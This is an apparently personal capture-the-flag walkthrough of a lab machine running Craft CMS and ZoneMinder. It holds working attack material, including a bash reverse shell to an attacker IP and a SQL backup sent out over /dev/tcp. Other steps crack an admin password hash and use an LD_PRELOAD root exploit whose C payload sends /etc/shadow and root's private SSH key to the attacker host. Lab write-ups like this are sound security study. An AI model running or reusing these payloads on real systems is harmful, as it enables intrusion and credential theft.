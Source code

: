 # recon
CMS : _CRAFT CMS 4.4.14_
# foothold
```
└─$ python3 exp.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> bash -c "bash -i >& /dev/tcp/10.10.16.23/4444 0>&1"
```
```
www-data@surveillance:/tmp$ ls /home
```
	matthew
	zoneminder
```
find /var -name *backup* 2>/dev/null
```
	/var/www/html/craft/storage/backups
	/var/www/html/craft/vendor/craftcms/cms/src/web/assets/dbbackup
```
cat surveillance--2023-10-17-202801--v4.4.14.sql >& /dev/tcp/10.10.16.23/444 0>&1
```
```
www-data@surveillance:/tmp$ cat surveillance--2023-10-17-202801--v4.4.14.sql | grep users
```
	/*!40000 ALTER TABLE `users` DISABLE KEYS */;
	INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');

we get password
Mathhew : 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec
# privesc
```bash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256                   
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?) 
```
connect as matthew and creat ssh key
```bash
$ su matthew
matthew@surveillance:~$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/matthew/.ssh/id_rsa): 

Created directory '/home/matthew/.ssh'.
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/matthew/.ssh/id_rsa
Your public key has been saved in /home/matthew/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:MeWPiUwKriG5kjzd2wGvjxQiyR6sC7hKspbEL90sZaY matthew@surveillance
The key's randomart image is:
+---[RSA 3072]----+
|          .      |
|         o       |
|    .   + .      |
|o... . + + +     |
|+*...o. S o .    |
|=*+oo++          |
|X==.Bo o         |
|=B.E.o= .        |
|B . .+.o         |
+----[SHA256]-----+
```

```bash
matthew@surveillance:~$ ss -tunl
Netid              State               Recv-Q              Send-Q                           Local Address:Port                           Peer Address:Port                                   
tcp                LISTEN              0                   511                                  127.0.0.1:8080
```

forward port with chisel 
```
matthew@surveillance:~$ ./chisel client 10.10.16.23:8000 R:127.0.0.1:8080
2024/05/04 21:07:44 client: Connecting to ws://10.10.16.23:8000
2024/05/04 21:07:47 client: Connected (Latency 140.423463ms)
```
or with ssh
```
─$ ssh matthew@surveillance.htb -L 1234:127.0.0.1:8080
```
## latteral movement
#ExploitZoneminder https://github.com/rvizx/CVE-2023-26035/blob/main/README.md
connected as zoneminder
## root
```bash
zoneminder@surveillance:~$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

```bash
zoneminder@surveillance:~$ ls -la /usr/bin/zm[a-zA-Z]*.pl
-rwxr-xr-x 1 root root 43027 Nov 23  2022 /usr/bin/zmaudit.pl
-rwxr-xr-x 1 root root 12939 Nov 23  2022 /usr/bin/zmcamtool.pl
-rwxr-xr-x 1 root root  6043 Nov 23  2022 /usr/bin/zmcontrol.pl
-rwxr-xr-x 1 root root 26232 Nov 23  2022 /usr/bin/zmdc.pl
-rwxr-xr-x 1 root root 35206 Nov 23  2022 /usr/bin/zmfilter.pl
-rwxr-xr-x 1 root root  5640 Nov 23  2022 /usr/bin/zmonvif-probe.pl
-rwxr-xr-x 1 root root 19386 Nov 23  2022 /usr/bin/zmonvif-trigger.pl
-rwxr-xr-x 1 root root 13994 Nov 23  2022 /usr/bin/zmpkg.pl
-rwxr-xr-x 1 root root 17492 Nov 23  2022 /usr/bin/zmrecover.pl
-rwxr-xr-x 1 root root  4815 Nov 23  2022 /usr/bin/zmstats.pl
-rwxr-xr-x 1 root root  2133 Nov 23  2022 /usr/bin/zmsystemctl.pl
-rwxr-xr-x 1 root root 13111 Nov 23  2022 /usr/bin/zmtelemetry.pl
-rwxr-xr-x 1 root root  5340 Nov 23  2022 /usr/bin/zmtrack.pl
-rwxr-xr-x 1 root root 18482 Nov 23  2022 /usr/bin/zmtrigger.pl
-rwxr-xr-x 1 root root 45421 Nov 23  2022 /usr/bin/zmupdate.pl
-rwxr-xr-x 1 root root  8205 Nov 23  2022 /usr/bin/zmvideo.pl
-rwxr-xr-x 1 root root  7022 Nov 23  2022 /usr/bin/zmwatch.pl
-rwxr-xr-x 1 root root 19655 Nov 23  2022 /usr/bin/zmx10.pl
```

#ExploitZoneminderLD_PRELOAD  [LD_PRELOAD](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path)
```bash
zoneminder@surveillance:/tmp$ nano exp.c
```
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -c 'cat /etc/shadow >& /dev/tcp/10.10.16.23/4444 0>&1'");
}
```
```bash
zoneminder@surveillance:/tmp$ gcc -shared exp.c -o exp.so -nostartfiles
```
Save LD_PRELOAD in config page
```BASH
curl 'http://0.0.0.0:1234/?' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://0.0.0.0:1234' -H 'Connection: keep-alive' -H 'Referer: http://0.0.0.0:1234/?view=options&tab=config' -H 'Cookie: zmSkin=classic; zmCSS=base; ZMSESSID=4eb1j07mlmlgm6prfotvsgn6t5' -H 'Upgrade-Insecure-Requests: 1' --data-raw '__csrf_magic=key%3A08a1ea7a28bde8f734471f28f543affb2f37f266%2C1714868782&view=options&tab=config&action=options&newConfig%5BZM_TIMESTAMP_ON_CAPTURE%5D=1&newConfig%5BZM_TIMESTAMP_CODE_CHAR%5D=%25&newConfig%5BZM_CPU_EXTENSIONS%5D=1&newConfig%5BZM_FAST_IMAGE_BLENDS%5D=1&newConfig%5BZM_OPT_ADAPTIVE_SKIP%5D=1&newConfig%5BZM_MAX_SUSPEND_TIME%5D=30&newConfig%5BZM_STRICT_VIDEO_CONFIG%5D=1&newConfig%5BZM_LD_PRELOAD%5D=/tmp/exp.so&newConfig%5BZM_V4L_MULTI_BUFFER%5D=1&newConfig%5BZM_CAPTURES_PER_FRAME%5D=1&newConfig%5BZM_FORCED_ALARM_SCORE%5D=255&newConfig%5BZM_BULK_FRAME_INTERVAL%5D=100&newConfig%5BZM_EVENT_CLOSE_MODE%5D=idle&newConfig%5BZM_EVENT_IMAGE_DIGITS%5D=5&newConfig%5BZM_DEFAULT_ASPECT_RATIO%5D=4%3A3&newConfig%5BZM_FONT_FILE_LOCATION%5D=%2Fusr%2Fshare%2Fzoneminder%2Fwww%2Ffonts%2Fdefault.zmfnt'
```
shutdow the deamon and startup
```bash
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmdc.pl shutdown zoneminder
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmdc.pl startup zoneminder
```
And i receive /etc/shadow content on my local machine by listening `nc -lnvp 4444`

Modify exp.c to
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("yes "" | ssh-keygen -q -t rsa -N '' -f /root/.ssh/id_rsa;cat /root/.ssh/id_rsa.pub > /root/.ssh/authorized_keys;/bin/bash -c 'cat /root/.ssh/id_rsa >& /dev/tcp/10.10.16.23/4444 0>&1'");
}

```